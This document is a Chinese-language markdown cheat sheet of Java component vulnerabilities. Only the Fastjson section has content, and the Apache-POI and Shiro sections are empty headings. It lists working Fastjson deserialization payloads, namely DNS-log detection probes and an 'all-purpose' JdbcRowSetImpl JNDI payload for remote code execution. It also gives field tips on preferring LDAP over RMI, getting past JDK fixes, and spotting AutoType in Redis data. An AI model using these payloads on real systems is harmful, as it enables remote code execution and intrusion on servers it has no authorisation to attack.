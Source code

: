 

# JAVA组件漏洞

[TOC]

- [Fastjson](#1. Fastjson)

- [Apache-Poi](#Apache-poi)

- [Shiro](#Shiro)

  

## 1. Fastjson

### 	1.1 版本 <= 1.2.48

### 		1.1.1 回显

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### 		1.1.2  RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 		1.1.3 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了
LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了
LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制
当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## 2. Apache-poi

## 3. Shiro
